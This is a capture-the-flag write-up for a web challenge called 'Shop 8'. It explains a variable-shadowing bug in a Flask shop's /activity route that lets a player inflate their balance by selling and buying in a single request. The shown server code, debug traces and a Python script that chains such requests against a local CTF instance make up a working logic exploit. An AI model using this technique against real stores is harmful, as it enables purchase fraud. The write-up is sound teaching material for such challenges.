

# Shop 8
_Author: snuff1n_

## Challenge 
```
Seems our security measures were not up to par last time, so this time we have increased the security, 
modernized the aesthetics and made sure that no private details are leaked! 
Just like with our previous shop, should you manage to buy the exclusive EPT totebag then 
you may claim it physically at the admin booth after you have bought it in the shop and 
submitted the flag on the platform!
```

Visiting the website showed us a products page, where we didnt have to log in.


Following the theme of the shop challenges, we had to buy the EPT-totebag which cost 1337kr which we could not yet afford.


The only two functionalities the site gave us was either buying or selling the bought products, so we had to find a way to increase our funds.


## Analysis

The way the server calculated our balance was a bit weird. It started out with 137 kr and looped over each of our activities (either buy or sell). For each sell it added funds to the balance, and for every buy it removed funds. A snippet can be seen under.

__/index__
```python
    ...
    items = cursor.execute("SELECT * FROM items ORDER BY created_at DESC").fetchall()
    items = {item[0]: item[5] for item in items}
    activity = cursor.execute(
        "SELECT * FROM activity WHERE session_id = ? ORDER BY transaction_date ASC",
        (g.session_id,),
    )
    activity = activity.fetchall()
    balance = 137
    for activity in activity:
        if activity[2] == "buy":
            balance -= items[activity[1]]
        elif activity[2] == "sell":
            balance += items[activity[1]]
    ...
```

Since the app used _?_ wildcards for its sql-queries it seemed unlikley that we could do sql-injection, and f.e. add items with negative values. However after reading a bit of the code we stumbled upon the activity function which handled buy or sell requests.

__/activity__
```python
@app.route("/activity", methods=["POST"])
def activity():
    db = get_db()
    cursor = db.cursor()
    activity = cursor.execute(
        "SELECT * FROM activity WHERE session_id = ? ORDER BY transaction_date ASC",
        (g.session_id,),
    )

    activity = activity.fetchall()
    items = cursor.execute("SELECT * FROM items ORDER BY created_at DESC").fetchall()
    items = {item[0]: item[5] for item in items}
    if "sell" in request.form:
        item_id = request.form.get("sell")
        owned = 0
        for activity in activity:
            if activity[1] == item_id:
                if activity[2] == "buy":
                    owned += 1
                elif activity[2] == "sell":
                    owned -= 1
        if owned >= 1:
            cursor.execute(
                "INSERT INTO activity (session_id, item_id, type) VALUES (?, ?, 'sell')",
                (g.session_id, item_id),
            )
            activity = [*activity, (g.session_id, item_id, "sell")]
            db.commit()
        else:
            return redirect("/")
    if "buy" in request.form:
        item_id = request.form.get("buy")
        balance = 137
        for activity in activity:
            if activity[2] == "buy":
                balance -= items[activity[1]]
            elif activity[2] == "sell":
                balance += items[activity[1]]

        if balance >= items[item_id]:
            cursor.execute(
                "INSERT INTO activity (session_id, item_id, type) VALUES (?, ?, 'buy')",
                (g.session_id, item_id),
            )
            activity = [*activity, (g.session_id, item_id, "buy")]
            db.commit()
        else:
            return redirect("/")
    return redirect("/")

```

When we sell an item it loops over all previous activitities to check how many of that item we currenty have, and if we have over 1 of that item it allows us to sell it. When it gets sold it adds it to the database but also adds it to the fetched activities. This is also the section that allows us to exploit the server. 

This line
```python
activity = [*activity, (g.session_id, item_id, "sell")]
```
appends our sell activity to the sell list. However since the activity variable is overwritten in the loop
```python
 for activity in activity:
```
the activity list after the sell branch will only contain the the unpacked last entry in the original activites list + our new sell activity. Its a bit weird so here is an example. 
- Activity variable before = activites before sell
- Activity variable between = activites after sell
- Activity variable after = activites after buy

Note: sessions ids and dates have been replaced with _ for readability.

1. First we buy a joke which cost 99 kr.
```
"POST /activity HTTP/1.1" 302 -
Activity before: []
Activity between: []
Activity after: [('_', 'joke', 'buy')]
```
Looks correct right now.


2. Then we sell the joke and buy a life-advice in the same post request.
```
"POST /activity HTTP/1.1" 302 -
Activity before: [('_', 'joke', 'buy', '_')]
Activity between: ['_', 'joke', 'buy', '_', ('_', 'joke', 'sell')]
Activity after: ['_', 'joke', 'sell', ('_', 'life-advice', 'buy')]
```
Before it looks correct, but in between something is wrong. The buy joke activity has been unpacked and our sell activity has been appended. Since the balance checker loops expects each entry in the list to be a tuple, our first purchase is not registered, and only the sell is registered. This effectivly doubles our balance.

```python
 for activity in activity:
            if activity[2] == "buy":
                balance -= items[activity[1]]
            elif activity[2] == "sell":
                balance += items[activity[1]]
```
It is this bug that allows us to keep selling and buying more expensive items.

## Exploit

The python script under sequentially sells and buys an even more expensive item for each iteration until we have purchased the ept-totebag which contains the flag. Run the script and check you inventory, and voila _flag_.

```python
import requests

BASE_URL = "http://127.0.0.1:1337/"
SESSION_ID = "SESSION-ID"

items = [
    "joke",
    "life-advice",
    "usb-cable",
    "sticky-notes",
    "pen",
    "calculator",
    "notebook",
    "desk-lamp",
    "mousepad",
    "webcam",
    "phone-stand",
    "speakers",
    "energy-drink",
    "ept-totebag",
]


s = requests.Session()
common_headers = {
    "Accept": "*/*",
    "Cookie": f"session_id={SESSION_ID}",
}
s.headers.update(common_headers)


def buy(item: str):
    s.post(f"{BASE_URL}/activity", data={"buy": item}, allow_redirects=False)


def sell_and_buy(sell_item: str, buy_item: str):
    s.post(
        f"{BASE_URL}/activity",
        data={"sell": sell_item, "buy": buy_item},
        allow_redirects=False,
    )


buy(items[0])
for i in range(1, len(items)):
    sell_and_buy(items[i - 1], items[i])
```




